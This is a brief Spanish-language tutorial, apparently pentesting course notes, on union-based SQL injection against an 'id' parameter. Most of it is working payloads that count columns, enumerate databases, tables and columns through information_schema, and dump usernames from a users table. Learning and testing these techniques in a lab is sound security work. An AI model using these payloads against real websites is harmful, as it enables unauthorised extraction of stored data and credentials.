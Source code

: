 -- -
Primero empezamos viendo la cantidad de columnas que existen con el uso de order by.
```sql
id=3' order by 100-- -
```

Una vez vimos la cantidad de columnas que existen empezamos con el uso de union select para empezar a ver el contenido almacenado.
```sql
id=3' union select 1
```

Esto nos tendria que mostrar el dato que esta almacenado en la primer columna de la tabla.
Pero si en vez de poner un identificador valido, ponemos unos no valido nos va a empezar a reflejar lo que ponemos, y ahi es cuando podemos  empezar a eejcutar de todo.  
```sql
id=32' union select database();
```

Con este comando le pedimos que nos liste todas las bases de datos existentes.
```sql
id=32' union select schema_name from information_schema.schemata-- -
```

El problema es que a veces los resultados terminan siendo limitados. Para evitar eso es mejor jugar con la funcion group_concat().
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
```

Luego, para enumerar las tablas de cierta base de datos podriamos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

Luego, tambien para ver las columnas tendriamos q hacer algo muy similiar a lo anterior.
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username) from users-- -
```